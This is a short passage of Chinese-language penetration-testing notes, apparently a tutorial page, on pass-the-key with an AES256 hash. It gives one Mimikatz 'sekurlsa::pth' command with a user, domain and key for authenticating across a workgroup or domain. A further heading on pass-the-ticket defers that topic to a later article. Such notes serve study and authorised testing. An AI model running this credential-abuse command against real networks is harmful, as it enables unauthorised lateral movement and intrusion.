## [PTK aes256 传递](#toc_ptk-aes256)

打补丁后的工作组及域连接：

```plain
sekurlsa::pth /user:webserver-2008 /domain:uf9n1x /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
```

## [PTT 票据传递](#toc_ptt)

需要先了解 kerberos 认证原理，及金票银票等，放在下一篇讨论
